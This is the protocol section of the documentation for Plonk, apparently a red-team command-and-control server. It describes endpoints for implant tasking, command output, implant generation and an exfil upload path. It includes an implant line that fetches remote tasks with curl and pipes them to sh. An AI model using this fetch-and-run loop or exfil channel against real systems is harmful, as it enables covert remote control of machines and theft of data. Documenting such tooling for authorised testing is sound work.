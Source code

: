 Protocol
========
Plonk, at it's core, is just an HTTP(s) server with extra steps.  It serves up
five endpoints:

Endpoint                       | Description
-------------------------------|------------
[`/t/<ID>`](#tasking-t)        | Request for tasking
[`/o/<id>`](#output-o)         | Command output
[`/f/<path>`](#static-files-f) | Serves static files
[`/c`](#implant-generation-c)  | "Implant" generation
[`/p/<path>`](#exfil-p)        | Exfil upload

All other HTTP queries get a 200 back with either an empty body or the contents
of `<plonk dir>/index.html` if it exists; its contents need not actually be
HTML.

Plonk is not particular about which HTTP verb is used.  Use whichever is
easiest on the implant side.  Plonk also isn't particular about what HTTP
client or client library an implant uses.  Although `/c` generates cURL in a
loop, anything which speaks Plonk's protocol works.

Implant IDs
-----------
Each Implant is assumed to have its own, unique ID.  This isn't enforced, but
things get kinda weird if it's not the case.  The ID itself doesn't matter much
as long as it works in a URL.

Tasking (`/t`)
------------
Plonk maintains a per-Implant ID task queue.  A task is retrieved by making a
request for `/t/<ID>`.  Tasks are queued in the client by selecting an implant
with `,seti` and then giving the task as a command, or, alternatively, with
`,task`.

### Example
#### Client:
```
(plonk)> ,seti kittens
2023/12/30 00:29:05 Interacting with kittens
2023/12/30 00:29:05 Use ,logs to return to watching Plonk's logs
kittens> ps awwwfux
2023/12/30 00:29:09 [TASKQ] Task queued by stuart for kittens (qlen 1)
ps awwwfux
```

#### Implant:
```sh
curl -s https://example.com/t/kittens | sh  # Runs ps awwwfux
```

Output (`/o`)
-------------
Output is sent back as the body of a request to `/o/<ID>`.  It is logged and
printed to any user which has that ID selected with `,seti`.  By default, only
1MB of output will be accepted.  Larger amounts of data may be sent via
[`/p`](#exfil-p).
